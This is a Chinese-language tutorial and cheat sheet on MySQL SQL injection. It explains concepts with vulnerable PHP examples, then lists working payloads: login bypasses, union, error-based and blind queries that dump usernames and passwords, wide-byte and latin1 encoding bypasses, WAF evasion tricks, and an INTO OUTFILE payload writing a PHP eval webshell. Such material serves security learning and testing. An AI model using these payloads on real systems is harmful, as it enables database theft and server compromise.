

# MySQL

Author: H3rmesk1t

Data: 2022.03.12

# SQL 注入
## 概念
所谓`SQL`注入, 简单来说就是开发者没有对用户的输入数据进行严格的限制或转义操作, 导致用户在`Web`表单等能与数据库交互的地方构造特殊的`SQL`命令, 从而来达到欺骗服务器, 泄露数据库的信息, 执行命令甚至`getshell`的目的.


下面给出示例代码, 模拟一个`Web`应用程序进行登录操作. 若登录成功, 则返回`success`; 否则返回`fail`.

```php
<?php
    $conn = mysqli_connect($servername, $username, $password, $dbname);
    if (!$conn) {
        die("Connection failed: " . mysqli_connect_error());
    }
    $username = @$_POST['username'];
    $password = @$_POST['password'];
    $sql = "select * from users where username = '$username' and password='$password';";
    $rs = mysqli_query($conn, $sql);
    if($rs->fetch_row()){
        echo "success";
    }else{
        echo "fail";
    }
?>
```

用户正常提交表单时的`SQL`语句为: `select * from users where username = 'xxx' and password = 'xxx';`. 而由于变量`$username`、`$password`均为用户可控输入内容, 因此当用户输入的`$username`为`admin'#`时, 提交表单的`SQL`语句为: `select * from users where username = 'admin'# and password = 'xxx';`. `#`是单行注释符, 可以将后边的内容给注释掉, 那么此条语句的语义将发生了变化, 用户可以不需要判断密码, 只需一个用户名即可完成登录操作, 这就导致了最简单的`SQL`注入漏洞.

## 种类
以注入点分类, 可以分为如下几类:
 - 数字型注入
 - 字符型注入
 - 搜索型注入
 - 宽字节注入
 - Base64 变形注入

以提交方式分类, 可以分为如下几类:
 - GET 注入
 - POST 注入
 - Cookie 注入
 - Referer 注入
 - User Agent 注入
 - X-Forwarded-For 注入

以执行效果分类, 可以分为如下几类:
 - 联合注入
 - 报错注入
 - 布尔盲注
 - 时间盲注
 - 堆叠注入


# MySQL 简介
[MySQL](https://baike.baidu.com/item/MySQL/471251#:~:text=MySQL%E6%98%AF%E4%B8%80%E4%B8%AA%E5%85%B3%E7%B3%BB,%E4%BD%9C%E4%B8%BA%E7%BD%91%E7%AB%99%E6%95%B0%E6%8D%AE%E5%BA%93%E3%80%82)是一个关系型数据库管理系统, 由瑞典`MySQL AB`公司开发, 属于`Oracle`旗下产品. `MySQL`是最流行的关系型数据库管理系统之一, 在`WEB`应用方面, `MySQL`是最好的`RDBMS`(Relational Database Management System)应用软件之一.

`MySQL`是一种关系型数据库管理系统, 关系数据库将数据保存在不同的表中, 而不是将所有数据放在一个大仓库内, 这样就增加了速度并提高了灵活性.

`MySQL`所使用的`SQL`语言是用于访问数据库的最常用标准化语言. `MySQL`软件采用了双授权政策, 分为社区版和商业版, 由于其体积小、速度快、总体拥有成本低, 尤其是开放源码这一特点, 一般中小型网站的开发都选择`MySQL`作为网站数据库.

一个完整的`MySQL`管理系统结构通常如下图, 可以看到`MySQL`可以管理多个数据库, 一个数据库可以包含多个数据表, 而一个数据表有含有多条字段, 一行数据正是多个字段同一行的一串数据.

<div align=center></div>


# MySQL 注入
在`MySQL`数据库中, 常见的对数据进行处理的操作有: 增、删、改、查这四种基本操作, 每一项操作都具有不同的作用, 共同构成了对数据的绝大部分操作, 与此同时也都具有着`SQL`注入的安全风险. 一个`MySQL`的查询语句完整格式如下:

```php
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```

## 常见基本函数
在`MySQL`中, 常用来获取基本信息的函数有:

```php
version()               # 查看当前数据库版本
@@version
@@global.vesion

user()                  # 查看当前登录用户
system_user()
current_user()
session_user()
current_user

sechma()                # 当前使用的数据库
database()

@@datadir               # 数据存储路径
@@basedir               # MySQL 安装路径
@@pid_file              # pid-file 文件路径
@@log_error             # 错误日志文件路径
@@slave_load_tmpdir     # 临时文件夹路径
@@character_sets_dir    # 字符集设置文件路径


@@version_compile_os	# 操作系统版本
```

## 常见字符串函数
在`MySQL`中, 常用来对字符串进行处理的函数有:

```php
mid()                   # 截取字符串
substr()
length()                # 返回字符串的长度
substring()						
left()                  # 从左侧开始取指定字符个数的字符串
concat()                # 没有分隔符的连接字符串
concat_ws()             # 含有分割符的连接字符串
group_concat()          # 连接一个组的字符串
ord()                   # 返回 ASCII 码
ascii()	
hex()                   # 将字符串转换为十六进制
unhex()                 # hex 的反向操作
md5()                   # 返回 MD5 值
round(x)                # 返回参数 x 接近的整数
floor(x)                # 返回不大于 x 的最大整数
rand()                  # 返回 0-1 之间的随机浮点数
load_file()             # 读取文件, 并返回文件内容作为一个字符串
sleep()                 # 睡眠时间为指定的秒数
if(true, t, f)          # if 判断
benchmark()             # 指定语句执行的次数
find_in_set()           # 返回字符串在字符串列表中的位置
```

## 重要的数据库
```php
information_schema                          # MySQL 系统表
mysql.innodb_table_stats                    # MySQL 默认存储引擎innoDB携带的表
mysql.innodb_index_stats
sys.schema_auto_increment_columns           # MySQL5.7 新增
sys.schema_table_statistics_with_buffer
```

## 重要的表

```php
schemata                # 数据库信息
schema_name

tables                  # 表信息
table_schema
table_name

columns                 # 字段信息
column_name
```

## 注入方式
例如: `http://www.test.com/sql.php?id=1`.
### 万能密码后台登陆
```sql
admin' --
admin' #
admin'/*
or '=' or
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
```

### 判断是否存在注入
#### 数值型注入
 - sql.php?id=1+1
 - sql.php?id=-1 or 1=1
 - sql.php?id=-1 or 10-2=8
 - sql.php?id=1 and 1=2
 - sql.php?id=1 and 1=1

#### 字符型注入
 - sql.php?id=1'
 - sql.php?id=1"
 - sql.php?id=1' and '1'='1
 - sql.php?id=1" and "1"="1

### 联合查询注入

```sql
# 判断 SQL 语句中一共返回了多少列
order by 3 --+

# 查看显示位
union select 1, 2, 3 --+

# 爆数据
union select 1, version(), database() --+

# 爆出单个数据库
union select 1, database(), schema_name from information_schema.schemata limit 0, 1 --+		

# 爆出全部数据库
union select 1, database(), group_concat(schema_name) from information_schema.schemata --+

# 爆出数据库 security 里的单个表名
union select 1, database(), (select table_name from information_schema.tables where table_schema = database() limit 0, 1) --+	

# 爆出数据库 security 里的所有表名
union select 1, database(), (select group_concat(table_name) from information_schema.tables where table_schema = database()) --+

# 从表名 users 中爆出一个字段来
union select 1, database(), (select column_name from information_schema.columns where table_schema = database() and table_name = 'users' limit 0, 1) --+

# 从表名 users 中爆出全部字段来
union select 1, database(), (select group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 'users' ) --+

# 从 users 表里对应的列名中爆出一个数据来
union select 1, database(), concat(id, 0x7e, username, 0x3A, password, 0x7e) from users limit 0,1 --+

# 从 users 表里对应的列名中爆出所有数据来
union select 1, database(), (select group_concat(concat(id, 0x7e, username, 0x3A, password, 0x7e)) from users) --+
```

### 报错注入
数据库报错注入版本限制:

|报错函数|数据库版本(5.0.96、5.1.60、5.5.29、5.7.26、8.0.12)|
|:----:|:----:|
|extractvalue|5.1.60、5.5.29、5.7.26、8.0.12|
|updatexml|5.1.60、5.5.29、5.7.26、8.0.12|
|floor|5.0.96、5.1.60、5.5.29、5.7.26|
|exp|5.5.29|
|geometrycollection|5.1.60、5.5.29|
|linestring|5.1.60、5.5.29|
|polygon|5.1.60、5.5.29|
|multipoint|5.1.60、5.5.29|
|multipolygon|5.1.60、5.5.29|
|multilinestring|5.1.60、5.5.29|

#### extractvalue
```sql
# 当前数据库
and extractvalue(1,concat(0x7e,(select database()),0x7e)) --+

# 爆出一个数据库, 需要注意显示长度存在限制, 太长的话不会显示全
and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e)) --+

# 从当前数据库里爆出一个表名
and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+

# 从当前数据库里的 users 表里爆出一个字段名来 
and extractvalue(1,concat(0x7e,( select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1 ),0x7e)) --+

# 从 users 表里对应的列名中爆出一个数据来
and extractvalue(1,concat(0x7e,( select concat(id,0x7e,username,0x7e,password) from users limit 0,1),0x7e)) --+
```

#### updatexml
```sql
# 当前版本
and updatexml(1,concat(0x7e,(select version()),0x7e),3) --+

# 爆出一个数据库, 需要注意显示长度存在限制, 太长的话不会显示全
and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),3) --+	 

# 从当前数据库里爆出一个表名
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),3) --+

# 从当前数据库里的 users 表里爆出一个字段名来 
and updatexml(1,concat(0x7e,( select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1 ),0x7e),3) --+

# 从 users 表里对应的列名中爆出一个数据来
and updatexml(1,concat(0x7e,( select concat(id,0x7e,username,0x7e,password) from users limit 0,1),0x7e),3) --+
```

#### floor
```sql
# 当前版本
and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 爆出一个数据库
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 从当前数据库里爆出一个表名
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 从当前数据库里的 users 表里爆出一个字段名来
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_schema='security' and table_name='users' LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 从 users 表里对应的列名中爆出一个数据来
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM users limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+
```

#### exp
```sql
and (select exp(~(select * from(select version())x))); --+
```

#### geometrycollection
```sql
and geometrycollection((select * from(select * from(select version())a)b)); --+
```

#### linestring
```sql
and linestring((select * from(select * from(select version())a)b)); --+
```

#### polygon
```sql
and polygon((select * from(select * from(select version())a)b)); --+
```

#### multipoint
```sql
and multipoint((select * from(select * from(select version())a)b)); --+
```

#### multipolygon
```sql
and multipolygon((select * from(select * from(select version())a)b)); --+
```

#### multilinestring
```sql
and multilinestring((select * from(select * from(select version())a)b)); --+
```

#### 不存在的函数
在`MySQL`中, 当选择一个不存在的函数时, 可能会得到当前所在的数据库名称.

<div align=center></div>

### 布尔盲注
以下语句均可以用大于、小于号结合二分法的方式来进行判断, 从而缩短注入所消耗的时长.
#### 判断长度
```sql
# 判断当前数据库的长度
and length(database())=8 --+

# 判断当前数据库里有几张表
and ((select count(*) from information_schema.tables where table_schema=database())=4) --+

# 判断每张表的长度
and  length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+
and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=1--+

# 判断表 users 的列数
and ((select count(*) from information_schema.columns where table_schema=database() and table_name='users')=3) --+

# 判断某张表的列数
and ((select count(*) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3) --+

# 判断某张表里对应的字段的数据的长度
and  length((select username from users where id =1))=4 --+
and  length((select password from users where id =1))=4 --+
```

#### 爆破内容
```sql
# 猜测当前数据库的名字
and ascii(substr((select database()),1))=115--+

# 猜测某张表的表名
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),5))=115 --+

# 猜测某张表里的某个列名
and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),8))=101 --+

# 猜测某张表里列名为 username 的数据
and ascii(substr((select username from users limit 0,1),1)) = 68--+
```

### 时间盲注
时间盲注主要是在布尔盲注的基础上, 利用可延时函数进行判断. 主要可以分为以下几种:
 - sleep
```sql
# 表达式为 Ture 时, 页面卡住 5 秒, 否则页面卡住一秒.
and if(length(database())=8,sleep(5),1) --+
```
 - benchmark
```sql
# 表达式为 Ture 时, 页面卡住 5 秒, 否则页面卡住一秒.
and if(length(database())=8,benchmark(10000000,sha(1)),1) --+
```
 - 笛卡尔积
```sql
# 延迟不精确, count()数量大时, 费时就高; count()数量小时, 费时就低.
and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C); --+
```
 - get_lock
```sql
# ctf表被锁住的前提下, 才会延迟 5 秒后进行判断(0=1), 否则不延迟就进行判断(1=1)
and get_lock('ctf',5)=1 --+
```
 - rlike
```sql
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```

### 堆叠注入
堆叠注入在`MySQL`上不常见, 必须要用到`mysqli_multi_query`或者`PDO`, 可以用分号分割来执行多个语句, 相当于可直连数据库. 由于分号`;`为`MySQL`语句的结束符, 若在支持多语句执行的情况下, 可利用此方法执行其他恶意语句, 如`RENAME`、`DROP`等.

注意, 通常多语句执行时, 若前条语句已返回数据, 则之后的语句返回的数据通常无法返回前端页面. 因此可以使用`union`联合注入, 若无法使用联合注入, 可考虑使用`RENAME`关键字, 将想要的数据列名/表名更改成返回数据的`SQL`语句所定义的表/列名. 参考: [2019强网杯——随便注](https://blog.csdn.net/qq_44657899/article/details/103239145).

PHP中堆叠注入的支持情况, 参考: [PDO场景下的SQL注入探究](https://xz.aliyun.com/t/3950). 

||Mysqli|PDO|MySQL|
|:----:|:----:|:----:|:----:|
|引入的PHP版本|5.0|5.0|3.0之前|
|PHP5.x是否包含|是|是|是|
|多语句执行支持情况|是|大多数|否|

### 二次注入
二次注入, 就是攻击者构造的恶意`payload`首先会被服务器存储在数据库中, 在之后取出数据库在进行`SQL`语句拼接时产生的`SQL`注入问题.

例如, 下面的查询当前登录用户信息的`SQL`语句, 假设经过了`addslashes`函数、单引号闭合的处理, 且无编码产生的问题. 

```sql
select * from users where username = '$_SESSION['username']';
```

可以先注册一个名为`admin' #`的用户名, 因为在注册进行了单引号的转义, 因此并不能直接进行`insert`注入, 注册的用户名存储在了服务器中. 注意: 反斜杠转义掉了单引号, 在`MySQL`中得到的数据并没有反斜杠的存在.

当进行登录操作的时候, 用注册的`admin' #`登录系统, 并将用户部分数据存储在对于的`SESSION`中, 如`$_SESSION['username']`. 由于`$_SESSION['username']`并没有经过处理, 会直接拼接到`SQL`语句中, 就会造成`SQL`注入, 最终的语句为:

```sql
select * from users where username='admin' #'
```

### 宽字节注入
先来看看相应的示例代码, 其中`addslashes`函数将会把`POST`接收到的`username`与`password`的部分字符进行转义处理:
 - 字符`'`、`"`、`\`前边会被添加上一条反斜杠`\`作为转义字符.
 - 多个空格被过滤成一个空格.

```php
<?php
    $conn = mysqli_connect("127.0.0.1:3307", "root", "root", "db");
    if (!$conn) {
        die("Connection failed: " . mysqli_connect_error());
    }
    $conn->query("set names 'gbk';");
    $username = addslashes(@$_POST['username']);
    $password = addslashes(@$_POST['password']);
    $sql = "select * from users where username = '$username' and password ='$password';";
    $rs = mysqli_query($conn,$sql);
    echo $sql.'<br>';
    if($rs->fetch_row()){
        echo "success";
    }else{
        echo "fail";
    }
?>
```

在示例代码中, 存在一条特殊的语句`$conn->query("set names 'gbk';");`, 其作用相当于:

```sql
SET character_set_client = 'gbk';
SET character_set_results = 'gbk';
SET character_set_connection = 'gbk';
```

当输入的数据为`username=%df%27or%201=1%23&password=123`, 经过`addslashes`函数处理最终变成`username=%df%5c%27or%201=1%23&password=123`, 经过`gbk`解码得到`username=運'or 1=1#`、`password=123`, 拼接得到`SQL`语句如下, 成功跳出了`addslashes`的转义限制:

```sql
select * from users where username = '運'or 1=1#' and password='123';
```
原理如下: 
 - 在`SQL`语句在与数据库进行通信时, 会先将`SQL`语句进行对应的`character_set_client`所设置的编码进行转码, 即转变为`gbk`编码. 由于`PHP`的编码为`UTF-8`, 因此当输入的内容为`%df%27`时, 会被当做是两个字符, 经过函数`addslashes`处理变成`%df%5c%27`, 在经过客户端层`character_set_client`编码处理后变成`運`, 成功将反斜线去除, 使单引号逃逸出来. 可参考[浅析白盒审计中的字符编码及SQL注入](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html).

### 其它注入
主要为上文提到的以提交方式分类的其它几种注入方式, 例如`User-Agent`头字段注入、`Referer`头字段注入、`Cookie`头字段注入、`XFF`头字段注入等.

### 文件读写
这里把文件读取相关知识放在注入方式中, 是因为其利用方式也是通过`SQL`注入来导入、导出文件, 从而来获取文件内容或者是向文件写入内容, 故是一种特殊的注入方式.

查询用户读写权限:
```sql
select file_priv from mysql.user where user = 'username';
```

#### 文件读取
通常使用`load_file()`或`load data file`来进行文件读取操作, 它们读取文件的原理都是一样的, 新建一个表, 读取文件为字符串形式插入表中后读取表中的数据, 使用前提条件:
 - `secure_file_priv`不为`NULL`, 可以使用`select @@secure_file_priv`查看其值, 值不为空字符串时, 只能使用该目录进行文件的读写操作.
 - 当前数据库用户具有`FILE`权限, 使用`show grants`查看.
 - 系统用户`mysql`对该文件可读(要考虑系统的访问控制策略, 在`Ubuntu-18.04`使用`MySQL`时默认的系统用户是`mysql`).
 - 读取文件的大小小于`max_allowed_packet`, 可以使用`select @@max_allowed_packet`查看.
 - 需要知道文件的绝对物理路径.

`secure_file_priv`的值:
 - `secure_file_priv`为`NULL`时, 表示不允许导入导出.
 - `secure_file_priv`指定文件夹时, 表示`MySQL`的导入导出只能发生在指定的文件夹.
 - `secure_file_priv`没有设置时, 则表示没有任何限制.

`Payload`如下, 需要注意对路径中斜杠的处理(在对`WINDOWS`系统进行注入时):

```sql
UNION SELECT LOAD_FILE("C:/shell.php")
UNION SELECT LOAD_FILE("C://shell.php")
UNION SELECT LOAD_FILE("C:\\shell.php")
UNION SELECT LOAD_FILE(CHAR(67,58,92,92,115,104,101,108,108,46,112,104,112))
UNION SELECT LOAD_FILE(0x433a7368656c6c2e706870)
```

#### 文件写入
通常使用`INTO OUTFILE`来进行文件写入操作, 使用前提条件:
 - `secure_file_priv`不为`NULL`, 可以使用`select @@secure_file_priv`查看其值, 值不为空字符串时, 只能使用该目录进行文件的读写操作.
 - 当前数据库用户具有`FILE`权限, 使用`show grants`查看.
 - 系统用户`mysql`对该文件可读(要考虑系统的访问控制策略, 在`Ubuntu-18.04`使用`MySQL`时默认的系统用户是`mysql`).
 - 读取文件的大小小于`max_allowed_packet`, 可以使用`select @@max_allowed_packet`查看.
 - 需要知道网站的绝对物理路径, 确保导出后的`webshell`可访问, 且对需导出的目录有可写权限.

`Payload`如下, 需要注意对路径中斜杠的处理(在对`WINDOWS`系统进行注入时):
```sql
UNION SELECT  "<?php eval($_POST['h3rmesk1t'])?>" INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\webshell.php';
```


# Trick 小结
## 常见防御手段绕过
随着`SQL`注入手段的不断增加, 越来越多的防御手段也不断出现. 很多时候, 输入的内容会经常遇到各种各样的过滤拦截. 过滤: 输入的部分内容在拼接`SQL`语句之前被程序删除掉了, 接着将过滤之后的内容拼接到`SQL`语句并继续与数据库通信. 拦截: 对输入部分的内容进行检测, 若检测到指定的内容存在, 则直接返回拦截页面, 同时不会进行拼接`SQL`语句并与数据库通信的操作.

### 空格
 1. 多层括号嵌套, 在`MySQL`中, 括号是用来包围子查询的, 因此任何可以计算出结果的语句都可以用括号包围起来.
 2. 将空格替换成`+`.
 3. 将空格替换注释, 如: `/**/`, `/*!*/`.
 4. `and`/`or`后面可以跟上偶数个`!`、`~`可以替代空格, 也可以混合使用(但是规律会不同), `and`/`or`前的空格可用省略.
 5. `%09`, `%0a`, `%0b`, `%0c`, `%0d`, `%a0`等部分不可见字符可也代替空格.

```sql
select * from users where username='h3rmesk1t'union(select+ctf,flag/**/from/*!article*/where/**/id='1'and!!!!~~1=1)
```

### 括号
 1. `order by`大小比较盲注.

### 逗号
 1. 盲注.
 2. 使用`like`语句代替, 例如: `select ascii(mid(user(),1,1))=80`等价于`select user() like 'r%'`.
 3. 使用`join`语句代替, 例如: `UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c);`就相当于`UNION SELECT 1,2,3;`.
 4. 利用`from for`或者`limit offset`, 例如: `substr(data from 1 for 1)`相当于`substr(data,1,1)`、`limit 9 offset 4`相当于`limt 9,4`.

### and/or
 1. 双写绕过, 例如: `anandd`、`oorr`.
 2. 使用运算符代替, 例如: `&&`、`||`.
 3. 直接拼接`=`号, 例如: `?id=1=(condition)`.
 4. 其他方法, 例如: `?id=1^(condition)`.

### 单双引号
 1. 需要跳出单引号的情况：尝试是否存在编码问题而产生的`SQL`注入.
 2. 不需要跳出单引号的情况: 字符串可用十六进制表示, 也可通过进制转换函数表示成其他进制, 如`char()`.

### 系统关键词
 1. 双写绕过关键字过滤.
 2. 大小写绕过, `SQL`语句忽略关键词是否大小写, 但是`WAF`基本上拦截都是大小写一起拦截的.
 3. 使用同义函数/语句代替, 如`if`函数可用`case when condition then 1 else 0 end`语句代替.

### 数字
使用`conv([10-36],10,36)`可以实现所有字符的表示.

```sql
false, !pi()                    0
true, !!pi()                    1
true+true                       2
floor(pi())                     3
ceil(pi())                      4
floor(version())                5
ceil(version())                 6
ceil(pi()+pi())                 7
floor(version()+pi())           8
floor(pi()*pi())                9
ceil(pi()*pi())                 10 A
ceil(pi()*pi())+true            11 B
ceil(pi()+pi()+version())       12 C
floor(pi()*pi()+pi())           13 D
ceil(pi()*pi()+pi())            14 E
ceil(pi()*pi()+version())       15 F
floor(pi()*version())           16 G
ceil(pi()*version())            17 H
ceil(pi()*version())+true       18 I
floor((pi()+pi())*pi())         19 J
ceil((pi()+pi())*pi())          20 K
ceil(ceil(pi())*version())      21 L
ceil(pi()*ceil(pi()+pi()))      22 M
ceil((pi()+ceil(pi()))*pi())    23 N
ceil((pi()+ceil(pi()))*pi())    23 N
ceil(pi())*ceil(version())      24 O
floor(pi()*(version()+pi()))    25 P
floor(version()*version())      26 Q
ceil(version()*version())       27 R
ceil(pi()*pi()*pi()-pi())       28 S
floor(pi()*pi()*floor(pi()))    29 T
```

## 编码转换产生的问题
在上文中谈到了宽字节注入的相关利用方式, 处理`gbk`造成的编码问题, 继续看看另一个经典的编码问题" `latin1`造成的编码问题.

示例代码如下:

```php
<?php
// 代码节选自: 离别歌's blog
    $mysqli = new mysqli("localhost", "root", "root", "cat");

    /* check connection */
    if ($mysqli->connect_errno) {
        printf("Connect failed: %s\n", $mysqli->connect_error);
        exit();
    }

    $mysqli->query("set names utf8");
    $username = addslashes($_GET['username']);

    if($username === 'admin'){
        die("You can't do this.");
    }

    /* Select queries return a resultset */
    $sql = "SELECT * FROM `table1` WHERE username='{$username}'";

    if ($result = $mysqli->query( $sql )) {
        printf("Select returned %d rows.\n", $result->num_rows);

        while ($row = $result->fetch_array(MYSQLI_ASSOC)) {
            var_dump($row);
        }

        /* free result set */
        $result->close();
    } else {
        var_dump($mysqli->error);
    }

    $mysqli->close();
?>
```

建表语句如下:

```sql
CREATE TABLE `table1` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(255) COLLATE latin1_general_ci NOT NULL,
  `password` varchar(255) COLLATE latin1_general_ci NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM AUTO_INCREMENT=1 DEFAULT CHARSET=latin1 COLLATE=latin1_general_ci;
```

在建表语句中设置表的编码为`latin1`, 事实上, 默认编码也是`latin1`. 往表中添加一条数据: `insert table1 VALUES(1,'admin','admin');`.

在示例代码中, `if($username === 'admin'){die("You can't do this.");}`对用户的输入进行了判断, 若输入内容为`admin`, 直接结束代码输出返回, 并且还对输出的内容进行`addslashes`处理, 使得无法逃逸出单引号.

注意到, 示例代码中存在一句代码`$mysqli->query("set names utf8");`, 在连接到数据库之后会执行该`SQL`语句, 其相当于:

```sql
SET character_set_client = 'utf8';
SET character_set_results = 'utf8';
SET character_set_connection = 'utf8';
```

此时会产生一个问题: `PHP`的编码是`UTF-8`, 而现在设置的也是`UTF-8`. 上文提到了`SQL`语句会先转成`character_set_client`设置的编码, 当`character_set_client`客户端层转换完毕之后, 数据将会交给`character_set_connection`连接层处理, 最后在从`character_set_connection`转到数据表的内部操作字符集, 在该问题中, 字符集的转换为: `UTF-8—>UTF-8->Latin1`.

`UTF-8`编码是变长编码, 可能有`1~4`个字节表示:
 - 一字节时范围是[00-7F].
 - 两字节时范围是[C0-DF][80-BF]
 - 三字节时范围是[E0-EF][80-BF][80-BF]
 - 四字节时范围是[F0-F7][80-BF][80-BF][80-BF]

而根据`RFC 3629`规范, 部分字节值是不允许出现在`UTF-8`编码中的, 参考[UTF-8](https://zh.wikipedia.org/wiki/UTF-8#:~:text=%E6%A0%B9%E6%8D%AE%E8%BF%99%E7%A7%8D%E6%96%B9%E5%BC%8F%E5%8F%AF%E4%BB%A5%E5%A4%84%E7%90%86%E6%9B%B4%E5%A4%A7%E6%95%B0%E9%87%8F%E7%9A%84%E5%AD%97%E7%AC%A6%E3%80%82%E5%8E%9F%E6%9D%A5%E7%9A%84%E8%A7%84%E8%8C%83%E5%85%81%E8%AE%B8%E9%95%BF%E8%BE%BE6%E5%AD%97%E8%8A%82%E7%9A%84%E5%BA%8F%E5%88%97%EF%BC%8C%E5%8F%AF%E4%BB%A5%E8%A6%86%E7%9B%96%E5%88%B031%E4%BD%8D%EF%BC%88%E9%80%9A%E7%94%A8%E5%AD%97%E7%AC%A6%E9%9B%86%E5%8E%9F%E6%9D%A5%E7%9A%84%E6%9E%81%E9%99%90%EF%BC%89%E3%80%82%E5%B0%BD%E7%AE%A1%E5%A6%82%E6%AD%A4%EF%BC%8C2003%E5%B9%B411%E6%9C%88UTF%2D8%E8%A2%ABRFC%C2%A03629%E9%87%8D%E6%96%B0%E8%A7%84%E8%8C%83%EF%BC%8C%E5%8F%AA%E8%83%BD%E4%BD%BF%E7%94%A8%E5%8E%9F%E6%9D%A5Unicode%E5%AE%9A%E4%B9%89%E7%9A%84%E5%8C%BA%E5%9F%9F%EF%BC%8CU%2B0000%E5%88%B0U%2B10FFFF%E3%80%82%E6%A0%B9%E6%8D%AE%E8%BF%99%E4%BA%9B%E8%A7%84%E8%8C%83%EF%BC%8C%E4%BB%A5%E4%B8%8B%E5%AD%97%E8%8A%82%E5%80%BC%E5%B0%86%E6%97%A0%E6%B3%95%E5%87%BA%E7%8E%B0%E5%9C%A8%E5%90%88%E6%B3%95UTF%2D8%E5%BA%8F%E5%88%97%E4%B8%AD%EF%BC%9A). 所以`UTF-8`第一字节的取值范围是`00-7F`和`C2-F4`. [所有的 UTF-8 字符](https://utf8-chartable.de/unicode-utf8-table.pl).

<div align=center></div>

利用上述这一特性, 可以利用`admin%c2`来绕过, `%c2`是一个`Latin1`字符集不存在的字符, `admin%c2`在最后一层的内部操作字符集转换中变成`admin`. 由上文可知, `%00-%7F`可以直接表示某个字符, 而`%C2-%F4`不可以直接表示某个字符, 它们只是其它长字节编码结果的首字节. 

在`Mysql`所使用的`UTF-8`编码是阉割版的, 仅支持三个字节的编码, 因此其字符集只有最大三字节的字符, 首字节范围: `00-7F`、`C2-EF`. 而对于不完整的长字节`UTF-8`编码的字符进行字符集转换时, 会直接进行忽略处理. 利用这一特性, `payload`中的`%2c`可以换成`%c2-%ef`.


# 参考
 - [对MYSQL注入相关内容及部分Trick的归类小结](https://xz.aliyun.com/t/7169#toc-35)